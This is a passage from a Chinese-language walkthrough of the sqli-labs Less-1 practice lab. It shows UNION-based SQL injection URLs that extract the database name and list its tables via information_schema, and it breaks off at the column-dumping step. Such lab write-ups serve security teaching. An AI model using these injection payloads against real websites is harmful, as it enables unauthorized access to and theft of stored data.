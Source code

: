 > 因此只能在 2，3  处构造语句

**爆库**

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```

得到数据库名为 `secrity`

![得到数据库名为 security](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D%E4%B8%BA%20security.png)

**爆表**

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

得到数据表名

![得到数据表名](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E8%A1%A8%E5%90%8D.png)

> 根据数据表名选择数据表

**爆字段**
